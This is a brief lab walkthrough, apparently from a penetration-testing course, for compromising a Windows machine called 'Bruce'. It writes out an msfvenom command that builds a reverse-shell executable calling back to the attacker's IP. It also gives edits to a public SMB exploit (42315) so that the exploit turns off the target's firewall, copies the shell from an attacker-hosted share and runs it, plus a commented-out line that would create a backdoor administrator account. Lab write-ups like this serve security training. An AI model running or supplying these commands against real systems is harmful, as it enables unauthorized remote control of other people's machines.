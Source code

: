 ```yaml
---
title: 'Htb: Bruce (walkthrough)'
date: 2020-08-25 11:58:47 +07:00
modified: 2020-08-25 16:49:47 +07:00
tags: [htb,sec, bruce.htb]
description: Hack the Box walkthrough for bruce.htb (10.11.1.75).
image: "/apa-itu-shell/shell_evolution.png"
---
```

# 10.11.1.75 - BRUCE 

1. Create msfvenom payload exectuable.
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.140 LPORT=4545 -f exe > shell.exe
```
2. copy the exploit to your current direcory:
`searchsploit -m 42315'
3. change 42315 exploit code to copy shell code and disable firewall:
```python
def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()
	service_exec(conn, r'cmd /c mkdir c:\temp')
	service_exec(conn, r'netsh advfirewall set allprofiles state off')
	service_exec(conn, r'cmd /c copy \\192.168.119.140\share\shell.exe c:\temp\shell.exe')
	service_exec(conn, r'cmd /c c:\temp\shell.exe')
	#service_exec(conn, r'cmd /c net user Wessel W3ss3l! /add && net localgroup administrators Wessel /add')
```
2. To get a shell execute the python exploit script.
`python 42315.py 10.11.1.75`
![](2020_09_07_21_19_44.png)
